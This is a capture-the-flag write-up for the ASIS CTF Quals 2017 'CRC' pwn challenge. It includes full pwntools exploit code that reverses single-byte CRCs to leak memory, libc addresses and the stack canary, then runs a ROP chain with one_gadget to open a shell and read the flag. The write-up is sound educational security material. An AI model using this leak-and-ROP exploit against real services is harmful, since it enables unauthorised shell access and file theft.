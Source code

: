 # ASIS CTF Quals 2017 - pwn - CRC - 123 pts

> Description:
>
>    We have setup a fresh CRC generator service, but it's not hardened, so find the flag.
>    This service running on latest Ubuntu Xenial OS.

>    nc 69.90.132.40 4002
    
> Attachment: [crcme](crcme) [crchelper.c](crchelper.c) [xpl.py](xpl.py) [libc_32.so.6](libc_32.so.6)
>

# Write-up

The CRC service asks us for a size and some data to process. It then generates a checksum for the specified string and prints it back. 

Quick check with checksec reveals:

```
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : FULL
```

Well, at least no PIE, but it's ovious, we'll have to leak some data to get around those restrictions. 

The function *get_userinput_number* contained an obvious buffer overflow, but it's guarded with a canary, so it won't be that easy to exploit.

```
int get_userinput_number() 
{
	gets(s);
	return atoi(s);
}
``` 

OK, we'll need some way to leak memory addresses in order to find LIBC and to read the canary. After that, it should be an easy task to use *get_userinput_number* to execute a rop chain.

Took an educated guess there, that the crc functionality should be abused to leak some data ;-)

And yep, another "buffer overflow" happened to arise when reading the data, that should be CRC'ed.


```
char s; 			// [sp+4h] [bp-84h]@1
char *ptrInput; 	// [sp+68h] [bp-20h]@1
[SNIP]
ptrInput = &s;
[SNIP]
gets(&s);
calcCrc(ptrInput, crcSize);
```

So, if everything goes right, ptrInput is pointing to the string, the user entered and gets used as the argument for the CRC function. But since it's directly behind the input string (s) itself and *gets* is used, we can overwrite the pointer with some arbitrary address. With this we're able to create a checksum for the data that's stored at any address. A step forward, but still, we will only get the CRC value for the data at this address. Thus, we need a method to reverse it in order to get the original value that's stored there.

To make this easier, we can pass a size of 1, so the CRC function will only calculate the checksum for one byte. We'll still need a way to reverse this but since we're now only considering one byte, there will be only 256 possible checksum values. This should be easy to brute force.

Ripped the CRC initialization method and the calculation method directly from the binary and created a short c script with it (see *crchelper.c*), which will generate a lookup table with the checksums for every possible byte.

Now we just have to call the CRC function for every byte in the address, we want to read and extract the returned checksum. The index of the checksum in our lookup table then represents the byte stored at the specified address. 

```python
CRCLOOKUP = [0xd202ef8d,0xa505df1b,0x3c0c8ea1,0x4b0bbe37,0xd56f2b94,0xa2681b02,0x3b614ab8,0x4c667a2e,0xdcd967bf,0xabde5729,0x32d70693,0x45d03605,0xdbb4a3a6,0xacb39330,0x35bac28a,0x42bdf21c,0xcfb5ffe9,0xb8b2cf7f,0x21bb9ec5,0x56bcae53,0xc8d83bf0,0xbfdf0b66,0x26d65adc,0x51d16a4a,0xc16e77db,0xb669474d,0x2f6016f7,0x58672661,0xc603b3c2,0xb1048354,0x280dd2ee,0x5f0ae278,0xe96ccf45,0x9e6bffd3,0x762ae69,0x70659eff,0xee010b5c,0x99063bca,0xf6a70,0x77085ae6,0xe7b74777,0x90b077e1,0x9b9265b,0x7ebe16cd,0xe0da836e,0x97ddb3f8,0xed4e242,0x79d3d2d4,0xf4dbdf21,0x83dcefb7,0x1ad5be0d,0x6dd28e9b,0xf3b61b38,0x84b12bae,0x1db87a14,0x6abf4a82,0xfa005713,0x8d076785,0x140e363f,0x630906a9,0xfd6d930a,0x8a6aa39c,0x1363f226,0x6464c2b0,0xa4deae1d,0xd3d99e8b,0x4ad0cf31,0x3dd7ffa7,0xa3b36a04,0xd4b45a92,0x4dbd0b28,0x3aba3bbe,0xaa05262f,0xdd0216b9,0x440b4703,0x330c7795,0xad68e236,0xda6fd2a0,0x4366831a,0x3461b38c,0xb969be79,0xce6e8eef,0x5767df55,0x2060efc3,0xbe047a60,0xc9034af6,0x500a1b4c,0x270d2bda,0xb7b2364b,0xc0b506dd,0x59bc5767,0x2ebb67f1,0xb0dff252,0xc7d8c2c4,0x5ed1937e,0x29d6a3e8,0x9fb08ed5,0xe8b7be43,0x71beeff9,0x6b9df6f,0x98dd4acc,0xefda7a5a,0x76d32be0,0x1d41b76,0x916b06e7,0xe66c3671,0x7f6567cb,0x862575d,0x9606c2fe,0xe101f268,0x7808a3d2,0xf0f9344,0x82079eb1,0xf500ae27,0x6c09ff9d,0x1b0ecf0b,0x856a5aa8,0xf26d6a3e,0x6b643b84,0x1c630b12,0x8cdc1683,0xfbdb2615,0x62d277af,0x15d54739,0x8bb1d29a,0xfcb6e20c,0x65bfb3b6,0x12b88320,0x3fba6cad,0x48bd5c3b,0xd1b40d81,0xa6b33d17,0x38d7a8b4,0x4fd09822,0xd6d9c998,0xa1def90e,0x3161e49f,0x4666d409,0xdf6f85b3,0xa868b525,0x360c2086,0x410b1010,0xd80241aa,0xaf05713c,0x220d7cc9,0x550a4c5f,0xcc031de5,0xbb042d73,0x2560b8d0,0x52678846,0xcb6ed9fc,0xbc69e96a,0x2cd6f4fb,0x5bd1c46d,0xc2d895d7,0xb5dfa541,0x2bbb30e2,0x5cbc0074,0xc5b551ce,0xb2b26158,0x4d44c65,0x73d37cf3,0xeada2d49,0x9ddd1ddf,0x3b9887c,0x74beb8ea,0xedb7e950,0x9ab0d9c6,0xa0fc457,0x7d08f4c1,0xe401a57b,0x930695ed,0xd62004e,0x7a6530d8,0xe36c6162,0x946b51f4,0x19635c01,0x6e646c97,0xf76d3d2d,0x806a0dbb,0x1e0e9818,0x6909a88e,0xf000f934,0x8707c9a2,0x17b8d433,0x60bfe4a5,0xf9b6b51f,0x8eb18589,0x10d5102a,0x67d220bc,0xfedb7106,0x89dc4190,0x49662d3d,0x3e611dab,0xa7684c11,0xd06f7c87,0x4e0be924,0x390cd9b2,0xa0058808,0xd702b89e,0x47bda50f,0x30ba9599,0xa9b3c423,0xdeb4f4b5,0x40d06116,0x37d75180,0xaede003a,0xd9d930ac,0x54d13d59,0x23d60dcf,0xbadf5c75,0xcdd86ce3,0x53bcf940,0x24bbc9d6,0xbdb2986c,0xcab5a8fa,0x5a0ab56b,0x2d0d85fd,0xb404d447,0xc303e4d1,0x5d677172,0x2a6041e4,0xb369105e,0xc46e20c8,0x72080df5,0x50f3d63,0x9c066cd9,0xeb015c4f,0x7565c9ec,0x262f97a,0x9b6ba8c0,0xec6c9856,0x7cd385c7,0xbd4b551,0x92dde4eb,0xe5dad47d,0x7bbe41de,0xcb97148,0x95b020f2,0xe2b71064,0x6fbf1d91,0x18b82d07,0x81b17cbd,0xf6b64c2b,0x68d2d988,0x1fd5e91e,0x86dcb8a4,0xf1db8832,0x616495a3,0x1663a535,0x8f6af48f,0xf86dc419,0x660951ba,0x110e612c,0x88073096,0xff000000]

def crc(size, payload):
	r.sendline("1")
	r.recvuntil("What is the length of your data:")
	r.sendline(str(size))
	r.recvuntil("process:")
	r.sendline(payload)

	r.recvuntil("CRC is: ")
	data = r.recvline()

	r.recvuntil("Choice:")	

	return data

def readAddress(address):
	result = 0

	for i in range(0, 4):
		payload = "A"*100
		payload += p32(address+i)

		crcByte = int(crc(1, payload), 16)
		orgByte = CRCLOOKUP.index(crcByte)

		result += orgByte << (i*8)
		
	return result
```

Armed with this, we can read some got entry and calculate the libc base address with it. With libc at hand, we'll have for one access to more rop gadgets, than we'll ever need and we can also leak *__environ* with it. Since it will be stored at a fixed offset to the canary, we can then calculate the position of the canary on the stack.

Having the address of the canary, we can just "de-crc" it the same way, and it should soon be game over for the service.

```python
EXITGOT = 0x08049fec

def exploit(r):
	r.recvuntil("Choice:")

	EXIT = readAddress(EXITGOT)	
	LIBC = EXIT - 0x2e7b0

	print ("[+] EXIT       : %s" % hex(EXIT))
	print ("[+] LIBC       : %s" % hex(LIBC))

	__ENV = LIBC + 0x001b1dbc

	ENVPTR = readAddress(__ENV)
	CANARYPTR = ENVPTR - 0xd0

	print ("[+] ENV        : %s" % hex(ENVPTR))
	print ("[+] Canary ptr : %s" % hex(CANARYPTR))

	CANARY = readAddress(CANARYPTR)

	print ("[+] Canary     : %s" % hex(CANARY))
```

```
python xpl.py 
[+] Opening connection to localhost on port 6666: Done
[7087]
[*] Paused (press any to continue)
[+] EXIT       : 0xf7e4c7b0
[+] LIBC       : 0xf7e1e000
[+] ENV        : 0xffffd32c
[+] Canary ptr : 0xffffd25c
[+] Canary     : 0xfe381000
```

Almost there... The buffer overflow in "get_userinput_function" should now be an easy victim. 

Used one_gadget to find a magic gadget in their libc to make things even easier.

```
$ one_gadget libc_32.so.6
0x3a819	execve("/bin/sh", esp+0x34, environ)
constraints:
  esi is the address of `rw-p` area of libc
  [esp+0x34] == NULL

0x5f065	execl("/bin/sh", eax)
constraints:
  esi is the address of `rw-p` area of libc
  eax == NULL

0x5f066	execl("/bin/sh", [esp])
constraints:
  esi is the address of `rw-p` area of libc
  [esp] == NULL
```

With this our final ropchain is:

```python
	ONEGADGET = LIBC + 0x5f065
	RWP = LIBC + 0x1b0000
	POP_ESI_EDI_EBP = 0x08048850
	XOREAX = LIBC + 0x0002c5fc
	
	payload = "C"*40
	payload += p32(CANARY)
	payload += "B"*12
	payload += p32(POP_ESI_EDI_EBP)
	payload += p32(RWP)
	payload += p32(0xdeadbeef)
	payload += p32(0xdeadbeef)
	payload += p32(XOREAX)
	payload += p32(ONEGADGET)

	r.sendline(payload)
	
	r.interactive()

	return
```

```c
$ python xpl.py 1
[+] Opening connection to 69.90.132.40 on port 4002: Done
[+] EXIT       : 0xf75dc7b0
[+] LIBC       : 0xf75ae000
[+] ENV        : 0xffd1cd3c
[+] Canary ptr : 0xffd1cc6c
[+] Canary     : 0xffa0db00
[+] ONEGADGET  : 0xf760d065
[*] Switching to interactive mode
 $ whoami
task2
$ cat /home/task2/flag.txt
**ASIS{db17755326b5df9dab92e18e43c3ee51}
```



